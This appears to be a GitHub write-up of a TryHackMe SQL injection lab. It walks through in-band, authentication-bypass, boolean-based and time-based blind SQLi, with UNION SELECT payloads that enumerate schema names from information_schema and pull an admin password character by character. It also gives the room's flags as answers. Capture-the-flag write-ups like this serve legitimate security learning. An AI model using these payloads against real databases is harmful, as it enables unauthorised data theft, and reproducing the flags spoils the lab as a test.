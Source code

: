 <p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Cover.png" alt="SQL Injection Cover">
</p>

# SQL Injection

## Table of Contents

- [In-Band SQLi](#in-band-sqli)
- [Blind SQLi - Authentication Bypass](#blind-sqli---authentication-bypass)
- [Blind SQLi - Boolean Based](#blind-sqli---boolean-based)
- [Blind SQLi - Time Based](#blind-sqli---time-Based)

## In-Band SQLi

1. What is the flag after completing level 1?



   ><details><summary>Click for answer</summary></details>

## Blind SQLi - Authentication Bypass

1. What is the flag after completing level two? (and moving to level 3)

   

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_9581}</details>

## Blind SQLi - Boolean Based

1. What is the flag after completing level three?

   On level 3 we only get a true or false response to help us find the answer.
   
   We first need to find the number of columns using:
   
   ```cmd
   ' UNION SELECT 1,2,3;--
   ```
   
   Add as many columns as needed for the response to become true.
      
   To enumerate the database names, we can use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
   ```
   
   Try combinations before the `%` until we find a name. This time it is:
   
   ```cmd
   sqli_three
   ```
   
   To enumerate the table names within the database we use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema="sqli_three" AND table_name LIKE '%';--
   ``
   
   Try combinations before the `%` until we find a name. This time it is:
   
   ```cmd
   users
   ```
   
   To enumerate the columns within this table we use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema="sqli_three" AND table_name="users" AND column_name LIKE '%';--
   ```
   
   Try combinations before the `%` until we find a name. Then add it as 'column_name!=...' to make sure we don't get a hit on it again. This time we get:
   
   ```cmd
   'id', 'username', and 'password'
   ```
   
   Next we need to find any existing username. For this we use the same method as before:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM users WHERE username like '%';--
   ```
   
   After finding username `admin` we use the same method to find the corresponding password:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE '%';--
   ```
   
   Going through all characters we find `3845`.

   ![SQLi Boolean](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Boolean_Based_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_1093}</details>

## Blind SQLi - Time Based

1. What is the final flag after completing level four?

   In this step, we get no feedback at all. The only way to get som information is to use the response time from the server. For this we add the `sleep()` command in the query to add a delay. This is executed if the query is true.
   
   The method is the same as the previous question. But we only get a different response time instead of a true or false statement. We start by enumerating the databases, then the tables and column names. Lastly, we enumerate for the username and password. In the end we get the following query.
   
   ```cmd
   admin123' UNION SELECT sleep(2),2 FROM users WHERE username='admin' AND password='4961';--
   ```
   
   ![SQLi Time Based](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Time_Based_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_MASTER}</details>

